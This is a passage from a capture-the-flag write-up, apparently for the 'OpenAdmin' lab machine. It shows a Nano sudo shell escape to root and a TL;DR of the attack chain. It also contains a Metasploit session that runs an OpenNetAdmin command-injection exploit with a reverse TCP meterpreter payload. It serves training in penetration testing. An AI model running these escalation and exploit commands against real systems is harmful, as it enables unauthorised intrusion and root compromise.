 ```text
^R^X
reset; sh 1>&0 2>&0
```

```bash
# clear
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
2f907ed4************************
```

We can check [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#shell) to see how we can get a shell from `Nano`. This shell will execute as the same privileges we had while running `Nano` and that's `root` because we can `sudo` this application without a password.

## TL;DR

- Gobuster finds `/music` which has a login button go to `/ona`
- OpenNetAdmin V18.1.1 is vulnerable to Remote Code Execution
- Config file shows password for Jimmy
- Access to `/var/www/internal` which is a website showing Joanna's SSH key and we can read the password hash
- Crack the password hash to see Joanna's SSH key
- Joanna can run `Nano` as root

## Bonus

### OpenNetAdmin via Metasploit

```bash
luc@kali:~/OpenAdmin$ sudo msfdb init && msfconsole -q
[i] Database already started
[i] The database appears to be already configured, skipping initialization
-----------------------------------------------------------------------------------
The pg and/or activerecord gem version has changed, meaning deprecated pg constants
may no longer be in use, so try deleting this file to see if the
'The PGconn, PGresult, and PGError constants are deprecated...' message has gone:
/usr/share/metasploit-framework/lib/pg/deprecated_constants.rb
-----------------------------------------------------------------------------------

msf5 > search opennetadmin

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/opennetadmin_ping_cmd_injection  2019-11-19       excellent  Yes    OpenNetAdmin Ping Command Injection

msf5 > use exploit/unix/webapp/opennetadmin_ping_cmd_injection
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set RHOSTS 10.10.10.171
RHOSTS => 10.10.10.171
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set LHOST tun0
LHOST => 10.10.14.9
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.14.9:4444
[*] Exploiting...
```